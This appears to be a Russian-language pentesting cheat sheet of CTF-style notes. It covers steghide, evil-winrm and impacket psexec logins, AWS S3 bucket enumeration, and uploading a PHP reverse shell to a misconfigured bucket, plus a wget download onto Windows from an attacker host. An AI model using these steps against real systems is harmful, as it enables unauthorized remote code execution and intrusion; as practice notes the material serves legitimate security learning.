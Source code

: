 **`xdg-open`** - позволяет открыть файл ( например картинку ) или URL в предпочтительном для него окружении.
**`steghide`** - ищет закодированный текст в нетекстовых файлах ( например картинках )
> ``` 
> steghide --info image.jpg
> steghide extract -sf image.jpg
> ```

**`ltrase`** - читает бинарные файлы как cat 

## Удалённая авторизация
### evil-winrm
`evil-winrm` - подключиться к удаённому хосту windows. пример:
> ``` 
> evil-winrm -i <ip> -u <username> -p <userpassword>
> ```

или
### impacket
`impacket/examples`
>```
python3 psexec.py <login>@{TARGET_IP}
 
## WEB

### [[Responder]]

### AWS
Существует саб-домин - **s3**. Это облачное хранилище для вещей в контейнерах. Корзины **AWS S3** имеют различные сценарии использования, включая резервное копирование и хранение, хостинг мультимедиа, доставку программного обеспечения, статический веб-сайт и тд. Файлы, хранящиеся в корзине Amazon S3, называются объектами S3.
**`awscli`** позволяет взаимодействовать с этой корзиной.
```
aws configure # первоначальная настройка. Можно установить значения temp.
```
Мы можем перечислить все корзины S3, размещенные на сервере, с помощью команды ls:
```
aws --endpoint=http://s3.<url> s3 ls
```
Мы также можем использовать команду ls для перечисления объектов и общих префиксов в указанном бакете.
```
aws --endpoint=http://s3.<url> s3 ls s3://<url>
```
Далее можно создать файл и иньекцией:
```
php_reverse_shell > shell.php
```
и загрузить его на уязвимый сервер:
```
aws --endpoint=http://s3.<url> s3 cp shell.php s3://<url>
```
### WGET
чтобы скачать что-то на windows, необходимо использовать следующий синтаксис:
>```
wget http://<IP/URL>/<file> -outfile <file>
